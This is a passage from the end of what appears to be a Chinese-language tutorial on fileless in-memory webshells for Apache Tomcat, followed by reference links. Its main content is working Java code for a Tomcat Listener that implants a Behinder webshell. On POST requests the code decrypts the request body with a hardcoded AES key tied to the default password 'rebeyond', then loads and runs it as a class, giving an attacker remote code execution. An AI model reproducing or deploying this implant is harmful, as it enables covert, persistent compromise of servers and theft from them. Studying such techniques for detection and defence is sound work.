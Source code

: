 ![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_52_oJbhFnt3.png)

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_53_UxBwAh4W.png)

### 注入冰蝎马
在这里只需要修改Listener的逻辑，为冰蝎马逻辑即可
```java
@Override
public void requestInitialized(ServletRequestEvent servletRequestEvent) {
    try{
        System.out.println("do Linstener");
        HttpServletRequest req = (HttpServletRequest) servletRequestEvent.getServletRequest();
        Field requestF = req.getClass().getDeclaredField("request");
        requestF.setAccessible(true);
        org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request)requestF.get(req);
        HttpServletResponse response = request.getResponse();
        HttpSession session = request.getSession();
        //create pageContext
        HashMap pageContext = new HashMap();
        pageContext.put("request", request);
        pageContext.put("response", response);
        pageContext.put("session", session);
        if (request.getMethod().equals("POST")) {
            String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
            session.putValue("u", k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
            //revision BehinderFilter
            Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            method.setAccessible(true);
            byte[] evilclass_byte = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()));
            Class evilclass = (Class) method.invoke(this.getClass().getClassLoader(), evilclass_byte,0, evilclass_byte.length);
            evilclass.newInstance().equals(pageContext);
            return;
        }

    }catch (Exception e){
        e.printStackTrace();
    }
}
```
![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_54_sjB2umcd.png)

## 参考链接
[P1n93r-Tomcat 架构原理](https://p1n93r.github.io/post/java/tomcat%E6%9E%B6%E6%9E%84%E5%8E%9F%E7%90%86/)

[threedr3am-基于tomcat的内存 Webshell 无文件攻击技术](https://xz.aliyun.com/t/7388#toc-2)

[天下大木头-Tomcat内存马学习（二）](http://wjlshare.com/archives/1541)

[洋洋-利用shiro反序列化注入冰蝎内存马](https://xz.aliyun.com/t/10696)

[https://www.bbsmax.com/A/x9J2X9Dnd6/](https://www.bbsmax.com/A/x9J2X9Dnd6/)

